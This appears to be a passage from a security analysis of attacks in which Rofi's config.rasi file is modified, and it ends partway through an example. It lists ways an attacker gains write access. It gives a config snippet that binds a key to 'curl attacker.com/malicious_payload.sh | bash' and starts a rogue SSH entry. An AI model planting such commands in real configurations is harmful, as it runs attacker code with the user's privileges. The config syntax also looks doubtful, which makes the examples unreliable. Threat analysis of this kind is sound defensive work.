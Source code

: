 ### 4. Deep Analysis of Configuration File Manipulation Attack Surface

**4.1. Technical Deep Dive:**

Rofi relies on a configuration file, typically located at `~/.config/rofi/config.rasi`, to customize its appearance, behavior, and functionality. This file uses a specific syntax to define various settings, including:

*   **Theme:** Controls the visual appearance of Rofi.
*   **Keybindings:** Maps keyboard shortcuts to specific actions or commands.
*   **Configuration Options:**  Various settings controlling aspects like window behavior, input handling, and more.
*   **Custom Commands:**  Allows defining custom commands that can be executed through Rofi's interface.

The vulnerability lies in the fact that if an attacker gains write access to this file, they can inject malicious configurations that Rofi will then interpret and execute.

**4.2. Attack Vectors:**

An attacker could gain write access to `config.rasi` through various means:

*   **Direct Access:** If the user's system is compromised (e.g., through malware or weak credentials), the attacker can directly modify the file.
*   **Exploiting Application Vulnerabilities:** An application using Rofi might have vulnerabilities that allow an attacker to write arbitrary files to the user's system, including `config.rasi`.
*   **Social Engineering:** Tricking the user into running a script or command that modifies the configuration file.
*   **Race Conditions:** In specific scenarios, a race condition might exist where an attacker can modify the file while Rofi is loading it, although this is less likely.
*   **Insufficient File Permissions:** If the permissions on the `~/.config/rofi` directory or `config.rasi` file are overly permissive, allowing unauthorized write access.

**4.3. Exploitable Configuration Options and Examples:**

Several configuration options within `config.rasi` can be exploited:

*   **`kb-custom-1` to `kb-custom-30` (Keybindings):**  An attacker can bind a malicious command to a seemingly innocuous key combination. When the user presses this combination within Rofi, the command will be executed with the user's privileges.

    ```rasi
    configuration {
        kb-custom-1: Control+Shift+X;
    }
    @keybinding custom-1 {
        exec: xterm -e "bash -c 'curl attacker.com/malicious_payload.sh | bash'";
    }
    ```

    In this example, pressing `Ctrl+Shift+X` would download and execute a malicious script.

*   **`combi-modi` and Custom Commands:**  Attackers can inject custom commands that are triggered when a specific menu item is selected.

    ```rasi
    configuration {
        combi-modi: "drun,run,ssh";
    }
    @mode "ssh" {
        display-name: "SSH";
        configuration {
            lines: 5;
            columns: 1;
            kb-row-select: "Return,KP_Enter";
        }
        @entry {
            label: "Connect to Evil Server";